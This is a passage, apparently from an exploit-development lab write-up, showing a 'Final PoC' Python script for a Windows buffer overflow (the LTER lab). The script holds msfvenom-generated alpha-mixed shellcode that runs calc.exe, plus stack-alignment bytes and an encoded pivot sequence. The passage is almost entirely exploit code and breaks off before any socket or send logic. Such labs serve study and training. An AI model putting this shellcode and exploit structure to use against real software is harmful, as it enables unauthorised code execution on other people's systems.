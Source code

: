 ##### Final PoC:

```term
import socket, sys, struct

# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed BufferRegister=ESI EXITFUNC=thread
# Payload size: 440 bytes

buf =  b""
buf += b"\x56\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x49\x6c\x38\x68\x6c\x42\x37\x70\x43\x30\x33\x30\x63"
buf += b"\x50\x4f\x79\x48\x65\x75\x61\x4f\x30\x31\x74\x6e\x6b"
buf += b"\x36\x30\x76\x50\x6c\x4b\x31\x42\x54\x4c\x6c\x4b\x62"
buf += b"\x72\x64\x54\x4e\x6b\x54\x32\x37\x58\x44\x4f\x6e\x57"
buf += b"\x73\x7a\x47\x56\x70\x31\x79\x6f\x6e\x4c\x55\x6c\x71"
buf += b"\x71\x73\x4c\x75\x52\x44\x6c\x65\x70\x6f\x31\x48\x4f"
buf += b"\x54\x4d\x33\x31\x6a\x67\x49\x72\x39\x62\x30\x52\x31"
buf += b"\x47\x6e\x6b\x76\x32\x36\x70\x4c\x4b\x73\x7a\x77\x4c"
buf += b"\x6e\x6b\x30\x4c\x77\x61\x30\x78\x4a\x43\x43\x78\x37"
buf += b"\x71\x78\x51\x66\x31\x6c\x4b\x42\x79\x31\x30\x45\x51"
buf += b"\x5a\x73\x4c\x4b\x70\x49\x66\x78\x6b\x53\x46\x5a\x31"
buf += b"\x59\x6c\x4b\x56\x54\x4e\x6b\x35\x51\x79\x46\x64\x71"
buf += b"\x4b\x4f\x6e\x4c\x7a\x61\x5a\x6f\x46\x6d\x56\x61\x78"
buf += b"\x47\x67\x48\x49\x70\x73\x45\x4a\x56\x44\x43\x73\x4d"
buf += b"\x7a\x58\x77\x4b\x43\x4d\x65\x74\x31\x65\x68\x64\x72"
buf += b"\x78\x6c\x4b\x31\x48\x34\x64\x73\x31\x5a\x73\x75\x36"
buf += b"\x4c\x4b\x76\x6c\x50\x4b\x6e\x6b\x76\x38\x77\x6c\x76"
buf += b"\x61\x5a\x73\x6c\x4b\x74\x44\x4e\x6b\x35\x51\x6a\x70"
buf += b"\x4c\x49\x37\x34\x47\x54\x64\x64\x43\x6b\x51\x4b\x65"
buf += b"\x31\x76\x39\x70\x5a\x33\x61\x49\x6f\x4d\x30\x53\x6f"
buf += b"\x33\x6f\x43\x6a\x6c\x4b\x65\x42\x48\x6b\x4c\x4d\x71"
buf += b"\x4d\x31\x7a\x75\x51\x6e\x6d\x6b\x35\x48\x32\x63\x30"
buf += b"\x67\x70\x33\x30\x30\x50\x55\x38\x45\x61\x6e\x6b\x52"
buf += b"\x4f\x6f\x77\x4b\x4f\x4e\x35\x6f\x4b\x6d\x30\x47\x6d"
buf += b"\x44\x6a\x66\x6a\x31\x78\x4c\x66\x4e\x75\x4f\x4d\x6f"
buf += b"\x6d\x4b\x4f\x68\x55\x67\x4c\x33\x36\x71\x6c\x77\x7a"
buf += b"\x6b\x30\x69\x6b\x59\x70\x30\x75\x73\x35\x4d\x6b\x72"
buf += b"\x67\x57\x63\x53\x42\x52\x4f\x63\x5a\x53\x30\x36\x33"
buf += b"\x59\x6f\x58\x55\x53\x53\x70\x61\x42\x4c\x70\x63\x46"
buf += b"\x4e\x72\x45\x32\x58\x65\x35\x53\x30\x41\x41"

alignment = ""
alignment += "\x54\x58\x54\x5B"
alignment += "\x66\x05\x58\x13"
alignment += "\x50\x5C"
alignment += "\x53\x58"
alignment += "\x66\x05\x68\x05"
alignment += "\x50\x5E"

# root@whitecr0wz:~/Exploit-Dev/LTER# slink
# Enter your shellcode: \x53\x5C\x56\xC3
# Enter shellcode variable name: pushesi
# [+] Shellcode size is divisible by 4
# [*] Encoding [c3565c53]..
# [+] No bad character found, using default encoder..
# [*] Shellcode final size: 21 bytes

pushesi = ""
pushesi += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
pushesi += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
pushesi += "\x05\x32\x36\x33\x62" ## add  eax, 0x62333632
```